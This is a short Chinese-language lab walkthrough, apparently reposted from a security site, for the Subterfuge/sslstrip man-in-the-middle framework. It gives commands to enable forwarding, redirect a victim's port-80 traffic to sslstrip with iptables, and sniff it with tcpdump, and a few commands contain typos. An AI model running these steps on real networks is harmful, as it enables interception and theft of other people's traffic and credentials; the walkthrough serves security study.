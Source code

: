 
subterfuge
------------------------------------


**Subterfuge是一款用python写的中间人攻击框架，它集成了一个前端和收集了一些著名的可用于中间人攻击的安全工具。**

Subterfuge主要调用的是sslstrip，sslstrip 是08
年黑帽大会提出的工具，它能突破对SSL的嗅探会进行自动的中间人攻击来拦截通讯的HTTP
流量，然后将流量中所有出现的HTTP
链接全部替换为HTTP，并把这个过程记录下来。接下来使用替换好的 HTTP
与目标机器进行连接，并且与服务器，也就是server 端进行HTTPS
，这样就可以对目标机器与服务器之间的所有通讯进行一个代理转发。

### 使用环境：

> 攻击机：archlinux   ip：192.168.248.145
>
> 目标主机：windows 7  ip：192.168.248.148

实验步骤：
----------

### 使用

直接使用blackarch的源安装subterfuge

    pacaur -S subterfuge

还需要同时安装python2-django，但是还不能兼容最新的版本，要安装旧版

    sudo pip2 install django=="1.5"

开启网卡转发

    echo “1” >/proc/sys/net/ipv4/ip_forword

使用iptables把80端口的数据转发到1234端口，方便sslstrip进行监听 

    iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 1234

### 启用sslstrip进行

-a 记录所有来这SSL和HTTP的数据

-l 1234 监听来自1234端口的数据与之前设置的iptables端口号一样

    ./sslstrip.py -a -l 1234

已成功启动sslstrip进行监听，现在启动tcpdump进行嗅探并捕获转发的报文

在攻击机上执行   

     tcpdump –A –i eth0tcp and src 192.168.248.148 and port 80

-A 开启ASCALL模式，把捕获的数据已ACSALL模式显示

-i 选择监听的网卡

> 原文地址: <http://www.freebuf.com/sectool/130456.html>
